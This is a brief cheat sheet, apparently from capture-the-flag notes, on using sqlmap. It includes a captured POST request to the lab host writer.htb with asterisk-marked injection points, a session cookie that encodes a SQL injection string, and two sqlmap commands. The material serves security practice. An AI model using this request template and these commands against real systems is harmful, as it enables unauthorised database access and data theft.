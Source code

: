 ## Use SQL Map to execute query from file

Example of file to be send to SQL map:

target.txt
```
POST /dashboard/stories/edit/1 HTTP/1.1
Host: writer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------15686989872295369694272055808
Content-Length: 1078
Origin: http://writer.htb
Connection: close
Referer: http://writer.htb/dashboard/stories/edit/1
Cookie: session=eyJ1c2VyIjoiYWRtaW5cIicgT1IgMT0xIC0tIDFcIiJ9.YXM0zA.njER3wzMFgIMj3SwY-YL9zGo1g8
Upgrade-Insecure-Requests: 1

-----------------------------15686989872295369694272055808
Content-Disposition: form-data; name="title"


On the Origin of Shadows*
-----------------------------15686989872295369694272055808
Content-Disposition: form-data; name="tagline"


aaaa*
-----------------------------15686989872295369694272055808
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


bbb*
-----------------------------15686989872295369694272055808
Content-Disposition: form-data; name="image_url"

http://10.10.15.31:9002/icon.png*
-----------------------------15686989872295369694272055808
Content-Disposition: form-data; name="content"

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*
-----------------------------15686989872295369694272055808--
```

Please note that target parameters are marked with '\*', this will indicate the place where injection shall take place.

Then execute SQL map as following:
```
$ sqlmap -r target.txt
```

## Launch sqlmap directly:

```
$ sqlmap -u http://test.com/page.php?id=10
```